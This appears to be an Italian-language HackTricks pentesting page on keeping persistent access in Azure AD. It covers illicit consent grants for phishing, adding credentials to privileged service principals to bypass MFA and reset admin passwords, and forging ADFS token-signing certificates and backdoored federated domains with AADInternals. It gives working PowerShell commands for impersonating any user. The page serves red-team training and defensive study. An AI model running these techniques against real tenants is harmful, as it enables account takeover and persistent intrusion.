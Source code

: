 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Illicit Consent Grant

Per impostazione predefinita, qualsiasi utente può registrare un'applicazione in Azure AD. Quindi puoi registrare un'applicazione (solo per il tenant target) che necessita di permessi ad alto impatto con consenso dell'amministratore (approvala se sei l'amministratore) - come inviare email per conto di un utente, gestione dei ruoli, ecc. Questo ci permetterà di **eseguire attacchi di phishing** che sarebbero molto **fruttuosi** in caso di successo.

Inoltre, potresti anche accettare quell'applicazione con il tuo utente come modo per mantenere l'accesso su di essa.

### Applications and Service Principals

Con i privilegi di Application Administrator, GA o un ruolo personalizzato con permessi microsoft.directory/applications/credentials/update, possiamo aggiungere credenziali (segreto o certificato) a un'applicazione esistente.

È possibile **prendere di mira un'applicazione con permessi elevati** o **aggiungere una nuova applicazione** con permessi elevati.

Un ruolo interessante da aggiungere all'applicazione sarebbe il **ruolo di amministratore dell'autenticazione privilegiata** poiché consente di **reimpostare la password** degli Amministratori Globali.

Questa tecnica consente anche di **bypassare MFA**.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Per l'autenticazione basata su certificati
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

Con **privilegi DA** su AD on-prem, è possibile creare e importare **nuovi certificati di firma del token** e **certificati di decrittazione del token** che hanno una validità molto lunga. Questo ci permetterà di **accedere come qualsiasi utente** il cui ImuutableID conosciamo.

**Esegui** il comando qui sotto come **DA sui server ADFS** per creare nuovi certificati (password predefinita 'AADInternals'), aggiungerli a ADFS, disabilitare il rollover automatico e riavviare il servizio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Poi, aggiorna le informazioni del certificato con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Con privilegi GA su un tenant, è possibile **aggiungere un nuovo dominio** (deve essere verificato), configurare il suo tipo di autenticazione come Federato e configurare il dominio per **fidarsi di un certificato specifico** (any.sts nel comando qui sotto) e dell'emittente:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Riferimenti

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
